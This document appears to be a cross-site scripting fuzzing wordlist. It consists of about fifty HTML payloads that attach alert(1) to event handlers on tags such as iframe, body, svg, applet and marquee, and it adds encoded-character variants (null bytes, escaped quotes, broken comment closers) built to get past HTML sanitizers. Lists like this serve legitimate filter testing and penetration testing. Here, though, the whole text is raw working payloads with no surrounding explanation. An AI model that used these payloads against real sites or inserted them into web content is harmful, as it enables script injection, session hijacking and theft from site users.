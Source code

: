       <iframe onReadyStateChange iframe onReadyStateChange="javascript:javascript:alert(1)"></iframe onReadyStateChange>
      <body onPageShow body onPageShow="javascript:javascript:alert(1)"></body onPageShow>
      <style onReadyStateChange style onReadyStateChange="javascript:javascript:alert(1)"></style onReadyStateChange>
      <frameset onFocus frameset onFocus="javascript:javascript:alert(1)"></frameset onFocus>
      <applet onError applet onError="javascript:javascript:alert(1)"></applet onError>
      <marquee onStart marquee onStart="javascript:javascript:alert(1)"></marquee onStart>
      <script onLoad script onLoad="javascript:javascript:alert(1)"></script onLoad>
      <html onMouseOver html onMouseOver="javascript:javascript:alert(1)"></html onMouseOver>
      <html onMouseEnter html onMouseEnter="javascript:parent.javascript:alert(1)"></html onMouseEnter>
      <body onBeforeUnload body onBeforeUnload="javascript:javascript:alert(1)"></body onBeforeUnload>
      <html onMouseDown html onMouseDown="javascript:javascript:alert(1)"></html onMouseDown>
      <marquee onScroll marquee onScroll="javascript:javascript:alert(1)"></marquee onScroll>
      <xml onPropertyChange xml onPropertyChange="javascript:javascript:alert(1)"></xml onPropertyChange>
      <frameset onBlur frameset onBlur="javascript:javascript:alert(1)"></frameset onBlur>
      <applet onReadyStateChange applet onReadyStateChange="javascript:javascript:alert(1)"></applet onReadyStateChange>
      <svg onUnload svg onUnload="javascript:javascript:alert(1)"></svg onUnload>
      <html onMouseOut html onMouseOut="javascript:javascript:alert(1)"></html onMouseOut>
      <body onMouseMove body onMouseMove="javascript:javascript:alert(1)"></body onMouseMove>
      <body onResize body onResize="javascript:javascript:alert(1)"></body onResize>
      <object onError object onError="javascript:javascript:alert(1)"></object onError>
      <body onPopState body onPopState="javascript:javascript:alert(1)"></body onPopState>
      <html onMouseMove html onMouseMove="javascript:javascript:alert(1)"></html onMouseMove>
      <applet onreadystatechange applet onreadystatechange="javascript:javascript:alert(1)"></applet onreadystatechange>
      <body onpagehide body onpagehide="javascript:javascript:alert(1)"></body onpagehide>
      <svg onunload svg onunload="javascript:javascript:alert(1)"></svg onunload>
      <applet onerror applet onerror="javascript:javascript:alert(1)"></applet onerror>
      <body onkeyup body onkeyup="javascript:javascript:alert(1)"></body onkeyup>
      <body onunload body onunload="javascript:javascript:alert(1)"></body onunload>
      <iframe onload iframe onload="javascript:javascript:alert(1)"></iframe onload>
      <body onload body onload="javascript:javascript:alert(1)"></body onload>
      <html onmouseover html onmouseover="javascript:javascript:alert(1)"></html onmouseover>
      <object onbeforeload object onbeforeload="javascript:javascript:alert(1)"></object onbeforeload>
      <body onbeforeunload body onbeforeunload="javascript:javascript:alert(1)"></body onbeforeunload>
      <body onfocus body onfocus="javascript:javascript:alert(1)"></body onfocus>
      <body onkeydown body onkeydown="javascript:javascript:alert(1)"></body onkeydown>
      <iframe onbeforeload iframe onbeforeload="javascript:javascript:alert(1)"></iframe onbeforeload>
      <iframe src iframe src="javascript:javascript:alert(1)"></iframe src>
      <svg onload svg onload="javascript:javascript:alert(1)"></svg onload>
      <html onmousemove html onmousemove="javascript:javascript:alert(1)"></html onmousemove>
      <body onblur body onblur="javascript:javascript:alert(1)"></body onblur>
      \x3Cscript>javascript:alert(1)</script>
      '"`><script>/* *\x2Fjavascript:alert(1)// */</script>
      <script>javascript:alert(1)</script\x0D
      <script>javascript:alert(1)</script\x0A
      <script>javascript:alert(1)</script\x0B
      <script charset="\x22>javascript:alert(1)</script>
      <!--\x3E<img src=xxx:x onerror=javascript:alert(1)> -->
      --><!-- ---> <img src=xxx:x onerror=javascript:alert(1)> -->
      --><!-- --\x00> <img src=xxx:x onerror=javascript:alert(1)> -->
      --><!-- --\x21> <img src=xxx:x onerror=javascript:alert(1)> -->
      --><!-- --\x3E> <img src=xxx:x onerror=javascript:alert(1)> -->
      `"'><img src='#\x27 onerror=javascript:alert(1)>
      <a href="javascript\x3Ajavascript:alert(1)" id="fuzzelement1">test</a>
      "'`><p><svg><script>a='hello\x27;javascript:alert(1)//';</script></p>
      <a href="javas\x00cript:javascript:alert(1)" id="fuzzelement1">test</a>
      <a href="javas\x07cript:javascript:alert(1)" id="fuzzelement1">test</a>